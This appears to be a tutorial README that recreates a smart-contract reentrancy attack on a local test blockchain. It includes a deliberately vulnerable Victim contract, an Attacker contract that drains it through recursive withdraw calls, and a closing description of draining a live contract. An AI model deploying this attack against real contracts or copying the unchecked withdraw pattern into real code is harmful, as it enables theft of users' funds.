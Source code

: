 # Recreating Reentrancy Attack 
The document below goes through a "reentrancecy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

``` 
$ npm i -g ethereumjs-testrpc 
$ npm i -g truffle 
``` 

### 2. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {

  function withdraw() {
    uint transferAmt = 100000000000000000; 
    if (!msg.sender.call.value(transferAmt)()) throw; 
  }

  function deposit() payable {}
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim v;
  uint public count;

  event LogFallback(uint c, uint balance);

  function Attacker(address victim) {
    v = Victim(victim);
  }

  function attack() {
    v.withdraw();
  }

  function () payable {
    count++;
    LogFallback(count, this.balance);
    if (count < 10) {
      v.withdraw();
    } 
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this 
folder is your contracts in their `binary` and `abi` forms. 

```
$ truffle compile
```

The command below `deploys` the contracts 
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account 
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 5. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console, 
so we can interact with our deployed contracts (Victim, Attacker), and 
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victimAddress  = victim.then(contract  => contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.18' // or somthing close to this 
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract  => contract.deposit.sendTransaction({from: acct1, to: contractAddress, value: web3.toWei(11, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier, 
that allows us to send ether to that function/contract from our `acct1` address. 
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again, 
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'88.18' // or somthing close to this 
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'11'
```

### 6. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have 
eth in that contract, lets steal some of that. but first lets check 
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attackerAddress = attacker.then(contract => contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above is going to run recursively 10 times, because of the
conditional in our `default payable` function. 

Now if everything is done correctly, we can see the reflection of what happened
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'1'
```

So as you can see the `Victim`'s contract is missing an additional `10` eth!!!

7. The Attack!!!

So the attacker finds a contract to attack, gets the contract's address and creates an
`Attacker` contract with an instances of the `Victim`'s contract to call against and targets the 
the deployed `Victim`'s contract by address. Onces it has all of those variables in place, the attacker can 
deploy the malicious contract to the Ethereum network and then call the `.attack()` method to drain 
the `Victim`s address.